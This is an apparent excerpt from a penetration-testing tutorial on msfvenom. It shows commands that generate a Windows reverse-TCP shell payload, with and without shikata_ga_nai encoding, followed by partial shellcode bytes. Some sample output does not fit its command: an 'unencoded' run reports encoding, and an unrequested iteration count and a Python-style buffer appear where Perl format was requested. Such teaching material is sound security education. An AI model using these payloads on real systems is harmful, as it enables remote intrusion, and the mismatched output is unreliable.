 After 2015, updates to these scripts have combined them within the `msfvenom` tool, which takes care of payload generation and Encoding. We will be talking about `msfvenom` in detail later on. Below is an example of what payload generation would look like with today's `msfvenom`:

#### Generating Payload - Without Encoding

```shell
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .

<SNIP>
```

We should now look at the first line of the `$buf` and see how it changes when applying an encoder like `shikata_ga_nai`.

#### Generating Payload - With Encoding

```shell
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"

<SNIP>
```

#### Shikata Ga Nai Encoding
